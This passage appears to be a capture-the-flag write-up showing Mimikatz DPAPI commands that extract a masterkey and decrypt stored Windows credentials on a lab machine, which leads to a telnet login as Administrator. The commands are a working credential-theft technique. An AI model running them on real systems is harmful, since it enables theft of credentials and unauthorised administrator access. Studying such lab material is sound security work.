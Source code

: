 # Mimikatz

**With mimikatz the credential file is examined, which reveals the corresponding masterkey (guidMasterKey)**

```bash
mimikatz# dpapi::cred /in:51AB168BE4BDB3A603DADE4F8CA81290
/sid:S-1-5-21-953262931-566350628-63446256-1001 /password:4Cc3ssC0ntr0ller
```

**The masterkey file is examined next, and the key is extracted.**

```bash
mimikatz# dpapi::masterkey /in:0792c32e-48a5-4fe3-8b43-d93d64590580
/sid:S-1-5-21-953262931-566350628-63446256-1001 /password:4Cc3ssC0ntr0ller
```

**With the masterkey in mimikatz’s cache, the credential blob can now be decrypted. It is now possible to open a telnet session as ACCESS\Administrator and gain the root flag.**

```bash
dpapi::cred /in:51AB168BE4BDB3A603DADE4F8CA81290
```
